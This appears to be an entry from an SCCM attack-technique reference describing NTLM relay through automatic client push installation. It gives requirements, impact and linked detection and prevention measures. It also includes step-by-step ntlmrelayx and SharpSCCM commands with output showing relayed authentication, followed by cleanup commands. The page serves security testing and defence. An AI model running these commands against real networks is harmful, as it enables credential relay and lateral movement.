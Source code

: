 # ELEVATE-2

## Description
NTLM relay via automatic client push installation

## MITRE ATT&CK Tactics
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to HTTPS (TCP/443) on a management point
- Connectivity from the primary site server to SMB (TCP/445) on the relay server
- Primary site server settings:
    - Automatic site-wide client push installation is enabled
    - Automatic site assignment is enabled
    - `Allow connection fallback to NTLM` is enabled for client push installation
    - PKI certificates are not required for client authentication
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target

### Relay
- Relay target settings:
    - Connectivity from the relay server to SMB (TCP/445) on the relay target
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

## Summary
When SCCM automatic site assignment and automatic client push installation are enabled, and PKI certificates aren’t required for client authentication, it’s possible to coerce NTLM authentication from the site server's installation and machine accounts to an arbitrary NetBIOS name, FQDN, or IP address, allowing the credentials to be relayed or cracked. This can be done using a low-privileged domain account on any Windows system.

## Impact
Client push installation accounts require local admin privileges to install software on systems in an SCCM site, so it is often possible to relay the credentials and execute actions in the context of a local admin on other SCCM clients in the site. Many organizations use a member of highly privileged groups such as "Domain Admins" for client push installation for the sake of convenience.

If all configured accounts fail when the site server tries to authenticate to a system to install the client, or if no specific installation accounts are configured, the server tries to authenticate with its domain computer account. If SMB is used, [TAKEOVER-1](../../TAKEOVER/TAKEOVER-1/takeover-1_description.md) and [TAKEOVER-2](../../TAKEOVER/TAKEOVER-2/takeover-2_description.md) may be possible. If the WebClient (WebDAV) service is enabled on the site server, it is possible to coerce NTLM authentication via HTTP, allowing relay to LDAP or HTTP to conduct attacks such as Shadow Credentials, Resource-based Constrained Delegation, or AD CS ESC8 to take over the server ([TAKEOVER-3](../../TAKEOVER/TAKEOVER-3) or [TAKEOVER-4](../../TAKEOVER/TAKEOVER-8/)).

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [DETECT-3: Monitor client push installation accounts authenticating from anywhere other than the primary site server](../../../defense-techniques/DETECT/DETECT-3/detect-3_description.md)
- [PREVENT-1: Patch site server with KB15599094](../../../defense-techniques/PREVENT/PREVENT-1/prevent-1_description.md)
- [PREVENT-2: Disable Fallback to NTLM](../../../defense-techniques/PREVENT/PREVENT-2/prevent-2_description.md)
- [PREVENT-5: Disable automatic side-wide client push installation](../../../defense-techniques/PREVENT/PREVENT-5/prevent-5_description.md)
- [PREVENT-8: Require PKI certificates for client authentication](../../../defense-techniques/PREVENT/PREVENT-8/prevent-8_description.md)
- [PREVENT-11: Disable and uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-12: Require SMB signing on site systems](../../../defense-techniques/PREVENT/PREVENT-12/prevent-12_description.md)

## Examples
It is not possible to identify whether automatic site-wide client push installation, automatic site assignment, and `Allow connection fallback to NTLM` are enabled without attempting this attack.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the relay target and the SMB service:

    ```
    # impacket-ntlmrelayx -smb2support -ts -ip <NTLMRELAYX_LISTENER_IP> -t <RELAY_TARGET_IP>
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-26 15:49:48] [*] Protocol Client MSSQL loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client LDAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client RPC loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client HTTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAPS loaded..
    [2024-02-26 15:49:48] [*] Protocol Client IMAP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMTP loaded..
    [2024-02-26 15:49:48] [*] Protocol Client SMB loaded..
    [2024-02-26 15:49:48] [*] Protocol Client DCSYNC loaded..
    [2024-02-26 15:49:50] [*] Running in relay mode to single host
    [2024-02-26 15:49:50] [*] Setting up SMB Server
    [2024-02-26 15:49:50] [*] Setting up HTTP Server on port 80
    [2024-02-26 15:49:50] [*] Setting up WCF Server
    [2024-02-26 15:49:50] [*] Setting up RAW Server on port 6666

    [2024-02-26 15:49:50] [*] Servers started, waiting for connections
    ```

2. Use SharpSCCM's `invoke client-push` function to register a new device with the management point and send a DDR to initiate automatic client push installation to your relay server running ntlmrelayx:

    ```
    SharpSCCM.exe invoke client-push -sms <MANAGEMENT_POINT> -sc <SITECODE> -t <NTLMRELAYX_LISTENER_IP>

    [+] Created "ConfigMgr Client Messaging" certificate in memory for device registration and signing/encrypting subsequent messages
    [+] Reusable Base64-encoded certificate:

        308209D2...020207D0

    [+] Discovering local properties for client registration request
    [+] Modifying client registration request properties:
        FQDN: <NTLMRELAYX_LISTENER_IP>
        NetBIOS name: <NTLMRELAYX_LISTENER_IP>
        Site code: <SITECODE>
    [+] Sending HTTP registration request to <MANAGEMENT_POINT>:80
    [+] Received unique SMS client GUID for new device:

        GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C

    [+] Discovering local properties for DDR inventory report
    [+] Modifying DDR and inventory report properties
    [+] Discovered PlatformID: Microsoft Windows NT Server 10.0
    [+] Modified PlatformID: Microsoft Windows NT Workstation 2010.0
    [+] Sending DDR from GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C to MP_DdrEndpoint endpoint on <MANAGEMENT_POINT>:<SITECODE> and requesting client installation on <NTLMRELAYX_LISTENER_IP>
    [+] Completed execution in 00:00:16.1952455
    ```
    **Note**: Sometimes, this command results in a client device record being created, but SCCM does not kick off automatic client push installation right away. Running the same command again should kick off the process.

3. After a few minutes, ntlmrelayx should receive a connection from the configured client push installation account(s) and the site server’s machine account:
    ```
    [2024-02-26 16:19:47] [*] SMBD-Thread-5 (process_request_thread): Received connection from <SITE_SERVER>, attacking target smb://<RELAY_TARGET>
    [2024-02-26 16:19:48] [*] Authenticating against smb://<RELAY_TARGET> as MAYYHEM/CLIENTPUSH SUCCEED
    ```


### Cleanup
It is not possible to remotely delete device records or remove CCRs in the retry queue that are created by heartbeat DDRs without having `Full Administrator` privileges to SCCM. By default, the site will retry client push installation every 60 minutes for 7 days, and if a newly discovered device sits in the client push installation retry queue for more than 24 hours, an error message may be displayed in the console to administrators.

With `Full Administrator` access to SCCM, artifacts created by SharpSCCM that cause client push installation retries can be removed from the site server and database through the ConfigMgr console or using SharpSCCM.

The following command can be used to identify the device's ResourceId:

```
SharpSCCM.exe get devices -sms <SMS_PROVIDER> -sc <SITECODE> -n <NTLMRELAYX_LISTENER_IP> -p "Name" -p "ResourceId" -p "SMSUniqueIdentifier"

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Executing WQL query: SELECT ResourceId,Name,SMSUniqueIdentifier FROM SMS_R_System WHERE Name LIKE '%<NTLMRELAYX_LISTENER_IP>%'
-----------------------------------
SMS_R_System
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777236
SMSUniqueIdentifier: GUID:593FA39D-B6C6-4B8F-A4DE-2454503116FC
-----------------------------------
Name: <NTLMRELAYX_LISTENER_IP>
ResourceId: 16777237
SMSUniqueIdentifier: GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
-----------------------------------
```

The following command can be used to remove a device with a specified GUID:

```
SharpSCCM.exe remove device GUID:<GUID> -sms <SMS_PROVIDER> -sc <SITECODE>

[+] Connecting to \\<SMS_PROVIDER>\root\SMS\site_<SITECODE>
[+] Deleted device with SMSUniqueIdentifier GUID:257EC4DF-C376-43A9-BAD1-D4AA25B48A2C
[+] Completed execution in 00:00:01.8554465
```

## References
- Chris Thompson, [Coercing NTLM Authentication from SCCM Servers](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Chris Thompson, [SharpSCCM](https://github.com/Mayyhem/SharpSCCM)
